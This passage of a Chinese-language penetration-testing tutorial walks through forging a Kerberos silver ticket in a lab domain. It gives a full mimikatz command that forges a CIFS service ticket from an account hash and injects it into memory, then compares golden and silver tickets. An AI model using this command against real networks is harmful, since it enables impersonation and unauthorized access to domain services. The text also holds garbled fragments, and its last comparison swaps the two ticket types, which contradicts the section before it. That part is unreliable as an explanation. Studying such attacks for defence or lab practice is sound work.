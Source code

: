    ![获取NTLM哈希值](https://minioapi.laffrex.top/laffrex/pictures/2024/11/14/202411141635946.png)

2. 在本机上制作白银票据，写入内存 uage-apl

   ```apl
   01kerberos::golden /user:Administrator /domain:laffrex.com /sid:S-1-5-21-1027567978-1567870151-2422577431 /target:dc.laffrex.com /service:cifs /rc4:bc8144babd6a3fa15f0e4a20cb31b77b /ptt
   ```

   ![写入白银票据](https://minioapi.laffrex.top/laffrex/pictures/2024/11/14/202411141632858.png)

   

3. 验证权限

   

   ![验证权限](https://minioapi.laffrex.top/laffrex/pictures/2024/11/14/202411141653352.png)

   

### 两者区别

#### 访问权限

- 黄金票据:伪造TGT，可以获取任何Kerberos服务权限
- 白银票据:伪造TGS，只能访问指定的服务

#### 加密方式

- 黄金票据:由Kerberos的Hash加密
- 白银票据:由服务账号(通常为计算机账户)Hash加密

#### 认证流程

- 黄金票据:黄金票据的利用过程需要访问域控
- 白银票据:不需要认证，可以跳过KDC的认证

#### 针对目标

- 黄金票据：TGS ticket针对的是某个机器上的某个服务，
- 白银票据：TGT针对的是所有机器的所有服务